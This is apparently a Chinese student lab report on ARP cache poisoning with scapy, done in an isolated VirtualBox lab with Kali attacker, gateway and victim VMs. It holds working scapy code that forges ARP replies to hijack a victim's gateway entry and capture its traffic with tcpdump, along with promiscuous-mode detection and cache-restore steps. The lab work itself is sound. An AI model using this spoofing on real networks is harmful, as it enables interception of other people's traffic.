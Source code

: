 # 模拟ARP投毒实验：


## 实验目标：

* 用scapy毒化”目标主机的 ARP 缓存
* 基于 scapy 编写 ARP 投毒劫持工具



## 实验环境：

* VirtualBox 6.1.26

* 攻击者主机： kali 2021.2 (内部网络2) 

* 网关：Debian 10 （内部网络2)

* 靶机：Debian 10 （内部网络2）

使用内部网络来最小化实验干扰。



## 实验过程：

#### 网络拓扑：

![net_structure](img/net_structure.png)

| 主机名        | IP地址            | MAC地址           |
| ------------- | ----------------- | ----------------- |
| gw-debian     | 172.16.222.1/24   | 08:00:27:df:22:5b |
| attacker-kali | 172.16.222.102/24 | 08:00:27:02:c5:a1 |
| victim-debian | 172.16.222.123/24 | 08:00:27:d5:ce:d8 |



### 实验一：检测局域网中的异常终端：

**1.打开攻击者主机上的scapy：**

kali系统内置scapy，如果没有则进入到python环境中[通过pip安装](https://pypi.org/project/scapy/)

需要通过sudo权限启动scapy，启动成功过后显示如下：

![scapydownload](img/scapydownload.png)



**2.检测受害者主机网卡的「混杂模式」是否启用：**

通过ssh连接受害者主机（此步可省略），

输入命令`ip a` （或者在已知网卡名的情况下输入：`ip link show [网卡名]`）观察目标网卡状态：

![promisc-off](img/promisc-off.png)

明确观察到无 `PROMISC` 关键字样，确认混杂模式关闭

使用攻击者主机的scapy交互式终端向受害者主机发送一个混杂模式探听包：

```
pkt = promiscping("[受害者靶机ip地址]")
```

从scapy的输出结果中可见没有得到相应。

![no-receive](img/no-receive.png)

回到受害者主机上手动开启该网卡的混杂模式

```
sudo ip link set [网卡名] promisc on
ip link show [网卡名]
```

![promisc-on](img/promisc-on.png)

明确观察到有 `PROMISC` 关键字样，确认混杂模式开启

重复刚才在攻击者主机上的操作，可以发现现在scapy的结果中成功出现送达了一个包的提示：

![1package](img/1package.png)

最后关闭受害者靶机的混杂模式：

```
sudo ip link set [网卡名] promisc off
```



### 实验二：手工单步“毒化”目标主机的ARP缓存

以下代码在攻击者主机上的scapy交互式终端完成：

```python
# 获取当前局域网的网关 MAC 地址
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="[网关IP地址]")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()

# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc

# 伪造网关的 ARP 响应包
# 准备发送给受害者主机
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
arpspoofed=ARP(op=2, psrc="[伪装成的网关ip]", pdst="[靶机ip]", hwdst="[攻击者主机MAC]")

# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed) #该函数并不能将靶机毒化

send(arpspoofed) #需要毒化得使用send函数
```

以上代码执行结果状态如下：

![arpspoof](img/arpspoof.png)

然后观察靶机的arp缓存变化：`ip neigh`

![arp_change](img/arp_change.png)

可见原本网关的mac地址在毒化后变成了攻击者主机的mac地址了。

此时我们要是在攻击者主机上进行抓包，则可以成功截获来自靶机的申请：

```
tcpdump -i [局域网卡] -n
```

![tcpdump](img/tcpdump.png)



回到攻击者主机上的 scapy 交互式终端继续执行命令。

```python
# 恢复受害者主机的 ARP 缓存记录
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = ARP(op=2, psrc="[网关ip地址]", hwsrc="[网关MAC]", pdst="[靶机ip]")
sendp(restorepkt1, count=100, inter=0.2)
```

完成后在靶机上检查：

![refreshed](img/refreshed.png)

可见ARP缓存已经恢复



> sendp(arpspoofed)并不能够成功毒化靶机的arp缓存，只有send(arpspoofed)才能成功毒化，这两个函数的区别在于send()工作在第三层，而sendp()工作在第二层。简单地说，send()是用来发送IP数据包的，而sendp()是用来发送Ether数据包的。



### 实验三：使用自动化工具完成 ARP 投毒劫持实验

使用kali中带有的arpspoof工具完成投毒，具体参数如下：

![arpspoof_tool](img/arpspoof_tool.png)



### 实验四：基于 scapy 编写 ARP 投毒劫持工具

编写python脚本： [AutoArpSpoof.py](AutoArpSpoof.py)  完成对靶机的持续投毒

投毒结果：

![keepspoof](img/keepspoof.png)



## 参考资料

* [第四章课程资料](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html#%E5%AE%9E%E9%AA%8C)

* [Scapy官方文档](https://scapy.readthedocs.io/en/latest/)

